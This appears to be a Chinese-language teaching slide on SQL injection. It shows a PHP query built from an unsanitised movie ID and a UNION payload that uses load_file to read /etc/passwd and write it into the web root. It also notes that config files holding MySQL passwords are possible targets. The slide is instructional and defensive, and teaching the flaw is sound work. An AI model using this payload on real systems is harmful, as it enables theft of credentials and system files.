

# SQL注入
示例3(恐怖！！！)
$query = “SELECT * FROM v_movie WHERE movieid=$movieid” ;
$movieid = “1 UNION select load_file(‘/etc/passwd’) into outfile ‘<webroot>/passwd.txt’”;
$query = “SELECT * FROM v_movie WHERE movieid= 1 UNION select load_file(‘/etc/passwd') into outfile ‘<webroot>/passwd.txt’” ;
Load_file 一般可以来查看，config.php（mysql的密码等配置），apache or nginx的配置文件，其他敏感文件等